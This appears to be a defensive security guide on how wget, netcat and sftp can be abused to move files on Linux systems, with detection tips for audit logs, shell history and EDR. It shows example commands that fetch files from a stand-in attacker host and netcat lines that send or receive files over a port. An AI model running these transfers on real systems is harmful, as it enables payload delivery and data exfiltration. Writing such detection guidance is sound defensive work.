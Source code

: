 **Note:** All of the commands below can also be used in "File Upload" operations.

### **# wget command**

Wget is a file upload/download tool. It supports protocols such as  HTTP, HTTPS, FTP. Using the wget command with the -O parameter, the file at the specified destination could be downloaded as the directory/file.

```
# URL=http://attacker.com/file_to_get  # LFILE=file_to_save  # wget $URL -O $LFILE
```

For detection; The usage of the wget command along with the “-O”  parameter is monitored closely. In addition, it should be questioned  whether the destination (IP/domain) to which the file is transferred is a known destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “wget” | grep "\-O"   - Searchable from history on Linux system.  # history |grep “wget” | grep "\-O"  or  # cat ~/.bash_history | grep “wget” | grep "\-O"   - It can be searched from "wget" process create or network connection events in EDR/XDR logs.

### **# nc command**

The **nc** (netcat) application is a simple *nix  application that reads and writes data over the network using tcp or udp protocols. In this way, it can also perform file transfer operations.

For testing, run the following command on the remote system which  will simply send the file "file_to_send" to the 12345 port of the  target.

```
nc target.com 12345 < "file_to_send"
```

The commands that need to be run on the target system where the file  will be downloaded are as below. The output of the requests to port  12345 is saved in the file "file_to_save" and the file is ready to be  downloaded to the local system remotely.

```
# LPORT=12345  # LFILE=file_to_save  # nc -l -p $LPORT > "$LFILE"
```

For detection; The "-l" parameter of the nc command and the usage status of the ">" operator should be monitored.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “nc” | grep “-l”   - Searchable from history on Linux system.  # history |grep “nc” | grep “-l”  or  # cat ~/.bash_history | grep “nc” | grep “-l”   - It can be searched from “nc” process create or network connection events in EDR/XDR logs.

### **# sftp command**

**sftp** is a protocol used for secure file transfer. It provides an interactive (see 3.Command) file transfer over SSH. After  connecting to the target system, the file download operation is  performed on the target system with the "get" command.

```
# RHOST=user@attacker.com  # sftp $RHOST  # get file_to_get file_to_save
```
